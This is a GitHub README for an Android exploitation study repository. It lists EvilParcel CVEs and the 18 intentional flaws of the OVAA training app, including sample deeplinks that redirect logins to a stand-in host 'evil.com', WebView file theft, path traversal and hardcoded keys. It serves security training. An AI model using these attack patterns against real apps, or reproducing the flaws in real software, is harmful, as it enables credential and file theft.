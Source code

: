 # androidpwn
# EvilParcel漏洞
CVE-2017-13288<br>
CVE-2017-13315<br>
Android Pwn De1taCTF BroadcastTest<br>

# OVAA Proof Of Concept
https://github.com/oversecured/ovaa<br>
The detailed codes and description or proof of concept<br>

# List of vulnerabilities
This section only includes the list of vulnerabilities, without a detailed description or proof of concept. Examples from OVAA will receive detailed examination and analysis on our blog.

1.Installation of an arbitrary login_url via deeplink oversecured://ovaa/login?url=http://evil.com/. Leads to the user's user name and password being leaked when they log in.<br>
2.Obtaining access to arbitrary content providers (not exported, but with the attribute android:grantUriPermissions="true") via deeplink oversecured://ovaa/grant_uri_permissions. The attacker's app needs to process oversecured.ovaa.action.GRANT_PERMISSIONS and pass intent to setResult(code, intent) with flags such as Intent.FLAG_GRANT_READ_URI_PERMISSION and the URI of the content provider.<br>
3.Vulnerable host validation when processing deeplink oversecured://ovaa/webview?url=....<br>
4.Opening arbitrary URLs via deeplink oversecured://ovaa/webview?url=http://evilexample.com. An attacker can use the vulnerable WebView setting WebSettings.setAllowFileAccessFromFileURLs(true) in the WebViewActivity.java file to steal arbitrary files by sending them XHR requests and obtaining their content.<br>
5.Access to arbitrary activities and acquiring access to arbitrary content providers in LoginActivity by supplying an arbitrary Intent object to redirect_intent.<br>
6.Theft of arbitrary files in MainActivity by intercepting an activity launch from Intent.ACTION_PICK and passing the URI to any file as data.<br>
7.Insecure broadcast to MainActivity containing credentials. The attacker can register a broadcast receiver with action oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA and obtain the user's data.<br>
8.Insecure activity launch in MainActivity with action oversecured.ovaa.action.WEBVIEW, containing the user's encrypted data in the query parameter token.
9.Deletion of arbitrary files via the insecure DeleteFilesSerializable deserialization object.<br>
10.Memory corruption via the MemoryCorruptionParcelable object.<br>
11.Memory corruption via the MemoryCorruptionSerializable object.<br>
12.Obtaining read/write access to arbitrary files in TheftOverwriteProvider via path-traversal in the value uri.getLastPathSegment().<br>
13.Obtaining access to app logs via InsecureLoggerService. Leak of credentials in LoginActivity Log.d("ovaa", "Processing " + loginData).<br>
14.Use of the hardcoded AES key in WeakCrypto.<br>
15.Arbitrary Code Execution in OversecuredApplication by launching code from third-party apps with no security checks.<br>
16.Use of very wide file sharing declaration for oversecured.ovaa.fileprovider content provider in root entry.<br>
17.Hardcoded credentials to a dev environment endpoint in strings.xml in test_url entry.<br>
18.Arbitrary code execution via a DEX library located in a world-readable/writable directory.<br>
